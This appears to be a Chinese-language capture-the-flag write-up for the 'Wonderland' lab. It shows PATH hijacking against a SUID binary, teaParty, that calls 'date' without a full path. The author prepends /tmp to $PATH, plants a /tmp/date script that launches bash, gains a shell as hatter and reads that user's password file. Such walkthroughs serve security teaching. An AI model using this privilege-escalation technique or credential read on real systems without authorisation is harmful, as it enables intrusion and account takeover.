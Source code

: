 ```
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
;*3$"
GCC: (Debian 8.3.0-6) 8.3.0

```

# 分析下面这行代码
```/bin/echo -n 'Probably by ' && date --date='next hour' -R```
首先执行/bin/echo -n 'Probably by '，然后再执行date --date='next hour' -R，date这个命令没有指明路径，像上面的python文件一样，如果当前目录有这个文件，那就会执行这个文件，没有这个文件系统就会去$PATH查找是否有这个命令


# 查看当前$PATH
```
rabbit@wonderland:/home/rabbit$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

# 把tmp目录加进$PATH里
```
rabbit@wonderland:/home/rabbit$ export PATH=/tmp:$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

```

# 在/tmp下创建一个date文件，编写以下代码，并且chmod +x /tmp/date
```
# !/bin/bash
/bin/bash
```

# 再次执行，获得hatter的shell
```
rabbit@wonderland:/home/rabbit$ vim /tmp/date
rabbit@wonderland:/home/rabbit$ chmod +x /tmp/date 
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ whoami
hatter
hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```

# 在hatter目录拿到ssh密码
```
hatter@wonderland:/home/rabbit$ cat /home/hatter/password.txt
WhyIsARavenLikeAWritingDesk?
